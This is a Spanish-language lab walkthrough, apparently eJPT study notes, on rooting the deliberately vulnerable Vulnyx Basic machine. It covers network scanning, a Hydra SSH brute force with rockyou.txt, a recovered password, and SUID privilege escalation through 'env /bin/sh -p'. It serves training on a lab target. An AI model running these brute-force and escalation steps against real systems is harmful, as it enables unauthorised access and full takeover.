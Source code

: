  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

    ```bash
    sudo arp-scan -I eth0 --localnet
    ```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

    ```bash
    ping -c 1 1.2.3.4
    ```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

    ```bash
    nmap -p --open -sS -sC -sV --min-rate=500 -vvv -n -Pn 1.2.3.4 -oN escaneo
    ```

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

    ```bash
    http://1.2.3.4
    ```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

    ```bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
    ```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

    ```bash
    dimitri:mememe
    ```

   Intenta iniciar sesión en el protocolo SSH:

    ```bash
    ssh dimitri@1.2.3.4
    ```

   Introduce la contraseña cuando se te solicite:

    ```bash
    mememe
    ```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

    ```bash
    find / -perm -4000 2>/dev/null
    ```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

    ```bash
    sudo install -m =xs $(which env) .
    env /bin/sh -p
    ```

   Si todo sale bien, deberías estar dentro como usuario `root`.

### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
